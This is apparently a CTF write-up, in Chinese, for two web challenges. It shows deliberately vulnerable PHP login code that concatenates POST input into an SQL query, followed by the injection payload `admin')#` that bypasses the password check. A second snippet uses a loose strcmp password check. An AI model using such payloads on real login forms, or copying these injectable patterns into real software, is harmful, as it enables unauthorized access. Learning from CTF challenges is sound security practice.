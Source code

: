 ## SQL注入1

```php
<html>
<head>
Secure Web Login
</head>
<body>
<?php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.phps">Source</a>
</html>
```

user 可以注入, 直接把后面的 pw 注释掉, 注意闭合 `')`, 密码随便填

`admin')#`

## pass check

```php
$pass=@$_POST['pass'];
$pass1=***********;//被隐藏起来的密码
if(isset($pass))
{
if(@!strcmp($pass,$pass1)){
echo "flag:nctf{*}";
}else{
echo "the pass is wrong!";
}
}else{
echo "please input pass!";
}
?>
```

